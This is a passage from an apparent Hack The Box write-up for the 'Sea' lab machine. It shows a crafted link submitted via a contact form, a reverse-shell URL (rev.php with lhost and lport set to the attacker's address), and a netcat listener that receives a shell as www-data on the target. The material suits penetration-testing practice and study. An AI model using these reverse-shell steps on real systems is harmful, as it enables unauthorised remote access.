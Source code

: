 ```bash
```

![](attachments/sea_4.png)

I submitted the created link on the contact form.
Then, I connected to the generated link;
`http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.15&lport=9000`

```bash
┌──(kali㉿kali)-[~/htb/sea]
└─$ nc -nlvp 9000           
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.28] 60950
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 02:29:13 up  7:47,  0 users,  load average: 0.86, 0.85, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
